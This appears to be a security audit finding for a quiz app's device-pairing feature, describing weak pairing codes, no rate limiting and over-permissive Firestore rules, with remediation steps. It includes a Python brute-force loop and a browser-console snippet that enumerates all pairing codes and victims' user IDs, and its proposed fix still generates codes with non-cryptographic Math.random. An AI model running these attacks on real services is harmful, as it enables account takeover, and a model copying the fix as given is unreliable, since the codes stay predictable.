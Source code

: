 **Location**:
- `lib/pairing.ts` lines 18-36, 39-68
- `firestore.rules` lines 19-22

**Vulnerability Description**:
The device pairing system has multiple security flaws:

1. **Weak pairing codes**: Only 6 characters (32^6 = 1 billion combinations)
2. **No brute-force protection**: Unlimited pairing attempts allowed
3. **Overly permissive Firestore rules**: Any authenticated user can read ALL pairing codes
4. **No account ownership verification**: Once paired, full account access granted

**Attack Scenarios**:

**Scenario A - Brute Force Attack**:
```python
import requests
import itertools

# Generate all 6-character codes
chars = 'ABCDEFGHJKLMNPQRSTUVWXYZ23456789'
for code in itertools.product(chars, repeat=6):
    code_str = ''.join(code)
    # Try to pair with this code
    result = validate_pairing_code(code_str)
    if result:
        print(f"SUCCESS! Paired with user: {result}")
        break
```

**Scenario B - Code Enumeration**:
```javascript
// From browser console (any authenticated user):
const db = getFirestore();
const codesSnapshot = await getDocs(collection(db, 'pairingCodes'));

codesSnapshot.forEach((doc) => {
  console.log('Code:', doc.id);
  console.log('Target userId:', doc.data().userId);
  console.log('Expires:', new Date(doc.data().expiresAt));
});

// Use any active code to pair with victim's account
```

**Impact**:
- **Account Takeover**: Full access to victim's quiz history, scores, flashcards
- **Data Breach**: All victim quiz data visible
- **Data Modification**: Attacker can modify victim's progress
- **Privacy Violation**: Quiz performance metrics exposed

**Exploitation Difficulty**: Easy (script kiddie level)

**Remediation**:
```typescript
// 1. Increase code length to 12 characters
export function generatePairingCode(): string {
  const chars = 'ABCDEFGHJKLMNPQRSTUVWXYZ23456789';
  let code = '';
  for (let i = 0; i < 12; i++) { // Changed from 6 to 12
    code += chars.charAt(Math.floor(Math.random() * chars.length));
  }
  return code;
}

// 2. Add rate limiting (max 5 attempts per IP per hour)
// Use Redis or in-memory store to track attempts

```
